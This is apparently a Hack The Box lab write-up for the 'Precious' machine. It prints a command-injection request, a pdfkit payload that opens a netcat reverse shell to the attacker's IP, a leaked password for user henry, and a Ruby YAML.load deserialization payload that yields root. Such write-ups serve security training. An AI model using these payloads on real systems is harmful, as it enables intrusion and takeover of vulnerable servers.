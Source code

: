 ```yaml
---
tags:
  - linux
---
```

# HTB: [Precious](https://app.hackthebox.com/machines/Precious)

> [!tip]- Spoiler Summary
> This target is running a simple web app with a vulnerable version of `pdfkit`, which allows for a foothold. Lateral movement is possible via leaked credentials and password reuse. Privilege escalation is possible by exploiting Ruby's YAML library.

## Services

### TCP

```console
# Nmap 7.94SVN scan initiated Tue Aug  6 15:03:38 2024 as: nmap -v -sCV -p- -T4 --min-rate 10000 -oN tcp_full t
Nmap scan report for t (10.10.11.189)
Host is up (0.092s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey:
|   3072 84:5e:13:a8:e3:1e:20:66:1d:23:55:50:f6:30:47:d2 (RSA)
|   256 a2:ef:7b:96:65:ce:41:61:c4:67:ee:4e:96:c7:c8:92 (ECDSA)
|_  256 33:05:3d:cd:7a:b7:98:45:82:39:e7:ae:3c:91:a6:58 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to http://precious.htb/
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

#### 80/tcp-http

```console
$ whatweb http://t
http://t [302 Found] Country[RESERVED][ZZ], HTTPServer[nginx/1.18.0], IP[10.10.11.189], RedirectLocation[http://precious.htb/], Title[302 Found], nginx[1.18.0]
ERROR Opening: http://precious.htb/ - no address for precious.htb

$ whatweb http://precious.htb
http://precious.htb [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[nginx/1.18.0 + Phusion Passenger(R) 6.0.15], IP[10.10.11.189], Ruby-on-Rails, Title[Convert Web Page to PDF], UncommonHeaders[x-content-type-options], X-Frame-Options[SAMEORIGIN], X-Powered-By[Phusion Passenger(R) 6.0.15], X-XSS-Protection[1; mode=block], nginx[1.18.0]
```

## RCE

![](_/htb-precious-20240806-3.png)

I spent some time hunting for an RCE vulnerability in "Phusion Passenger 6.0.15", but couldn't find anything.

But, I got code execution via a POST parameter:

```console
POST / HTTP/1.1
Host: precious.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 42
Origin: http://precious.htb
Connection: keep-alive
Referer: http://precious.htb/
Upgrade-Insecure-Requests: 1
url=http%3A%2F%2F10.10.14.8%2Ffoo$(id)
```

This resulted in the following request to my web server:

```console
10.10.11.189 - - [06/Aug/2024 15:27:20] "GET /foouid=1001(ruby)%20gid=1001(ruby)%20groups=1001(ruby) HTTP/1.1" 404 -
```

My command options were limited via that vector. I was useful for recon (`cat /etc/passwd`, `cat /proc/self/environ`, and the like) but I couldn't use `>` redirection and many commands failed in ways I couldn't work around.

Eventually I realized that the web service was using a [vulnerable pdfkit](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795), so passing an argument like the following was enough to get a reverse shell.

```text
http://example.htb/?name=#{'%20`busybox nc 10.10.14.8 443 -e sh`'}
```

```console
listening on [any] 443 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.11.189] 40806
id
uid=1001(ruby) gid=1001(ruby) groups=1001(ruby)
```

## Lateral Movement

```ruby
ruby@precious:/opt$ cat update_dependencies.rb
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'
# TODO: update versions automatically
def update_gems()
end
def list_from_file
    YAML.load(File.read("dependencies.yml"))
end
def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end
gems_file = list_from_file
gems_local = list_local_gems
gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end

ruby@precious:/opt$ cat sample/dependencies.yml
yaml: 0.1.1
pdfkit: 0.8.6
```

```console
ruby@precious:/opt$ ls -l update_dependencies.rb sample/dependencies.yml
-rw-r--r-- 1 root root  26 Sep 22  2022 sample/dependencies.yml
-rwxr-xr-x 1 root root 848 Sep 25  2022 update_dependencies.rb
```

`ruby@precious:/var/www/pdfapp/app/controllers/pdf.rb`:

```ruby
class PdfControllers < Sinatra::Base
  configure do
    set :views, "app/views"
    set :public_dir, "public"
  end
  get '/' do
    erb :'index'
  end
  post '/' do
    url = ERB.new(params[:url]).result(binding)
    if url =~ /^https?:\/\//i
      filename = Array.new(32){rand(36).to_s(36)}.join + '.pdf'
      path = 'pdf/' + filename
      begin
           PDFKit.new(url).to_file(path)
          cmd = `exiftool -overwrite_original -all= -creator="Generated by pdfkit v0.8.6" -xmptoolkit= #{path}`
          send_file path, :disposition => 'attachment'
      rescue
           @msg = 'Cannot load remote URL!'
      end
    else
        @msg = 'You should provide a valid URL!'
    end
    erb :'index'
  end
end
```

Found creds for user `henry`:

```console
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
ruby@precious:~$ su - henry
Password:
henry@precious:~$ id
uid=1000(henry) gid=1000(henry) groups=1000(henry)
```

That config file comes from [Bundler](https://bundler.io/v1.12/man/bundle-config.1.html). In this case, the credentials have been reused for the local login on the target.

## Privilege Escalation

User `henry` has Sudo privileges on the previously discovered Ruby script:

```console
henry@precious:~$ sudo -l
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

I know the script reads a file called `dependencies.rb` from the current working directory, so I should be able to modify that file to get a root shell somehow.

I found a nice post called [Universal RCE with Ruby YAML.load](https://staaldraad.github.io/post/2019-03-02-universal-rce-ruby-yaml-load/). I adapted the payload [from here](https://gist.github.com/staaldraad/89dffe369e1454eedd3306edc8a7e565).

Here's the working payload:

```ruby
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: sh
         method_id: :resolve
```

```console
henry@precious:~$ sudo /usr/bin/ruby /opt/update_dependencies.rb
sh: 1: reading: not found
# id
uid=0(root) gid=0(root) groups=0(root)
```

## Credits

- [Universal RCE with Ruby YAML.load](https://staaldraad.github.io/post/2019-03-02-universal-rce-ruby-yaml-load/)
